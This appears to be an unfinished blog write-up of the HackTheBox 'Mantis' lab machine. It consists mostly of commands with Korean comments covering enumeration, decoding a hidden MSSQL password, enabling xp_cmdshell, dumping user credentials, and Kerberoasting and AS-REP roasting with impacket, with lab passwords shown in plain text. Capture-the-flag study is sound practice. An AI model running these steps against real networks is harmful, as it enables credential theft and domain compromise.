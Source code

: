 ```yaml
---
layout: post
title: HackTheBox Mantis
subtitle: Tracks Intro to Offshore Mantis WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-22-Mantis/a4ec388428362331d352e0c8197628f3_MD5.jpeg)
## Target - 10.129.104.28
### Nmap
```bash
nmap -sC -sV -Pn -oN Mantis -p- 10.129.104.28
```
![](assets/images/posts/2025-03-22-Mantis/769c3d479a620a851ae7a3b20c848432_MD5.jpeg)

### Web
```bash
# wordlist 선택 잘 해야함.
gobuster dir -u http://10.129.110.72:1337 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

# 접근
http://10.129.110.72:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt

# file name decrypt : 6d2424716c5f53405f504073735730726421
echo -n "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d

# hash find / https://md5hashing.net/hash_type_checker : m$$ql_S@_P@ssW0rd!
echo -n "6d2424716c5f53405f504073735730726421" | xxd -r -p
```
![](/assets/images/posts/2025-03-22-Mantis/253d3af748f2c0f3266103b94180bd28_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/b38c293fda4d4164f2191b50a7ca303e_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/465c02373b516278293589f23352beb9_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/bd6f445def888058e877f5ca9abbd8c3_MD5.jpeg)
### MSSQL 
```bash
# mssql 접근
impacket-mssqlclient admin@10.129.110.72

# rce permission error로 불가
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# DB 조사
SELECT name FROM sys.databases

# 테이블 조사
use database
SELECT * FROM INFORMATION_SCHEMA.TABLES

# 컬럼 조사
SELECT * FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blog_Orchard_Users_UserPartRecord'

# 데이터 얻기 / James : james@htb.local : J@m3s_P@ssW0rd!
SELECT UserName, Email, Password FROM blog_Orchard_Users_UserPartRecord
```

![](/assets/images/posts/2025-03-22-Mantis/f70eda358256e33f8bc51f87a38dd1ee_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/182a7b0de707875646da84310c2f5f70_MD5.jpeg)
### SMB
```bash
crackmapexec smb 10.129.110.72 -u 'james' -p 'J@m3s_P@ssW0rd!' --shares
crackmapexec smb 10.129.110.72 -u 'james' -p 'J@m3s_P@ssW0rd!' --users
```
![](/assets/images/posts/2025-03-22-Mantis/727355dbf012cad50ded1b4832834d16_MD5.jpeg)

### RPC
```bash
# S-1-5-21-4220043660-4019079961-2895681657-1103
rpcclient -U htb.local/james%'J@m3s_P@ssW0rd!' 10.129.109.198
```
![](/assets/images/posts/2025-03-22-Mantis/d84c6aca78d1e451b3048f4743b6eb3f_MD5.jpeg)

### PyKEK
```bash

```
### Info
```txt
domain : htb.local

1337 IIS 7.5
1433 MSSQL / 50255 MSSQL Server
8080 http

sudo impacket-GetUserSPNs -request -dc-ip 10.129.110.72 htb.local/james
impacket-GetNPUsers -dc-ip 10.129.110.72 -request -outputfile hashes.asreproast htb.local/james

mount -t cifs -o rw,username=james,password= '//10.129.110.72/<폴더명>' /mnt
```